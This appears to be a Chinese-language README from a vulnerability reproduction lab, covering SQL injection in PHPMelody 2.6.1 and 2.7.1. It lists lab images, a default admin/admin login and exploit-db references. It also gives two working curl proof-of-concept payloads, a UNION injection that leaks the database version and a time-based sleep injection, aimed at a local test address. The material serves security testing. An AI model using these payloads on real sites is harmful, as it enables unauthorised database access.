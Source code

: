 ## 环境说明

测试镜像

* src/phpmelody/2.6.1
  * 管理员账号

    admin/admin

  * 后台地址

    http://127.0.0.1/admin/

## PHPMelody 2.6.1 SQL注入漏洞（CVE-2017-15081）

测试镜像

* src/phpmelody/2.6.1

影响版本

* PHPMelody <= 2.6.1

参考链接

* [PHP Melody 2.6.1 - SQL Injection](https://www.exploit-db.com/exploits/43062/)

Poc

```shell
curl "http://172.17.0.2/playlists.php?playlist=%27%20%20UNION%20SELECT%201,concat(0x223c2f613e3c2f6469763e3c2f6469763e,version(),0x3c212d2d),1,1,1,1,1,1,1,1,1--%201" | grep "playlist=\"</a></div></div>"
```

成功会在页面返回version信息



## PHPMelody 2.7.1 SQL注入漏洞（CVE-2017-15081）

测试镜像

- src/phpmelody/2.7.1

影响版本

- PHPMelody <= 2.7.1

参考链接

- [PHP Melody 2.7.1 - 'playlist' SQL Injection](https://www.exploit-db.com/exploits/43409/)

Poc

```shell
curl "http://172.17.0.2/ajax.php?p=video&do=getplayer&vid=randomid&aid=1&player=detail&playlist='or(select(sleep(1)))or'"
```

成功请求会延迟4s返回（4倍sleep时间）
